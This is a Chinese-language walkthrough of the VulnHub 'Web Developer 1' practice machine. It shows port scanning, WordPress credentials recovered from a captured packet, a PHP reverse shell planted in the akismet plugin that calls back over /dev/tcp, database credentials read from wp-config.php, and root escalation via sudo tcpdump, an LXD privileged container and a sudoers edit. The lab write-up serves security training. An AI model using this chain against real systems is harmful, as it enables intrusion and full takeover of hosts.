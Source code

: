 # Web Developer 1

下载地址：https://download.vulnhub.com/webdeveloper/WebDeveloper.ova

## 实战演练

找到靶场IP地址：`192.168.32.155`

![image-20220612151053323](../../.gitbook/assets/image-20220612151053323.png)

扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.32.155                                                                    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-12 03:28 EDT
Nmap scan report for 192.168.32.155
Host is up (0.0015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 00:0C:29:7E:24:50 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.90 seconds
                                                              
```

浏览器访问80端口

![image-20220612152857392](../../.gitbook/assets/image-20220612152857392.png)

扫描web目录，找到系统是wordpress和`ipdata`目录

![image-20220612153131597](../../.gitbook/assets/image-20220612153131597.png)

![image-20220612153151167](../../.gitbook/assets/image-20220612153151167.png)

分析数据包找到一个账号密码：`webdeveloper/Te5eQg&4sBS!Yr$)wf%(DcAd`

```
log=webdeveloper&pwd=Te5eQg%264sBS%21Yr%24%29wf%25%28DcAd&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.176%2Fwordpress%2Fwp-admin%2F&testcookie=
```

> log=webdeveloper&pwd=Te5eQg&4sBS!Yr$)wf%(DcAd&wp-submit=Log+In&redirect_to=http://192.168.1.176/wordpress/wp-admin/&testcookie=

![image-20220612153456206](../../.gitbook/assets/image-20220612153456206.png)

登录WP后台系统

![image-20220612154200386](../../.gitbook/assets/image-20220612154200386.png)

修改WP插件加入反弹shell代码，`Plugins -> Editor -> akismet.php`

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.32.130/7777 0>&1'"); ?>
```

访问http://192.168.32.155/wp-content/plugins/akismet/akismet.php

![image-20220612154421773](../../.gitbook/assets/image-20220612154421773.png)

找到wp-config.php，发现`webdeveloper`密码为`MasterOfTheUniverse`

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

```

SSH登录成功

![image-20220612154727813](../../.gitbook/assets/image-20220612154727813.png)

查看sudo列表

```
webdeveloper@webdeveloper:~$ sudo -l
[sudo] password for webdeveloper: 
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump

```

### tcpdump提权

```
webdeveloper@webdeveloper:~$ cat /tmp/bash 
cp /bin/bash /tmp/sh-1
chmod u+s /tmp/sh-1
webdeveloper@webdeveloper:~$ chmod +x /tmp/bash 

webdeveloper@webdeveloper:~$ sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/bash -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
16 packets received by filter
0 packets dropped by kernel

webdeveloper@webdeveloper:/tmp$ ./sh-1  -p
sh-1-4.4# id
uid=1000(webdeveloper) gid=1000(webdeveloper) euid=0(root) groups=1000(webdeveloper),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
sh-1-4.4# cd /root/
sh-1-4.4# ls
flag.txt
sh-1-4.4# cat flag.txt 
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290

```



### lxd提权

使用LinEnum.sh发现一条警告

![image-20220612160429040](../../.gitbook/assets/image-20220612160429040.png)

lxd初始化

```
webdeveloper@webdeveloper:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, "auto" or "none") [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, "auto" or "none") [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:
```

初始化镜像

```
webdeveloper@webdeveloper:~$ lxc init ubuntu:16.04 test -c security.privileged=true
Creating test
```

挂载磁盘

```
webdeveloper@webdeveloper:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
Device whatever added to test
```

启动镜像并进入镜像访问任意文件

```
webdeveloper@webdeveloper:~$ lxc start test
webdeveloper@webdeveloper:~$ lxc exec test bash
root@test:~# ls
root@test:~# id
uid=0(root) gid=0(root) groups=0(root)
```

在这里，我们创建了一个 lxc 容器，为其分配了安全权限，并将整个磁盘挂载到`/mnt/root`.

```
root@test:/mnt/root# ls
bin   home            lib64       opt   sbin      sys  vmlinuz
boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
dev   initrd.img.old  media       root  srv       usr
etc   lib             mnt         run   swap.img  var
```

修改sudoers文件提权

```
root@test:/mnt/root# echo "%webdeveloper ALL=(ALL:ALL) ALL" >> /mnt/root/etc/sudoers
```

![image-20220612163055741](../../.gitbook/assets/image-20220612163055741.png)
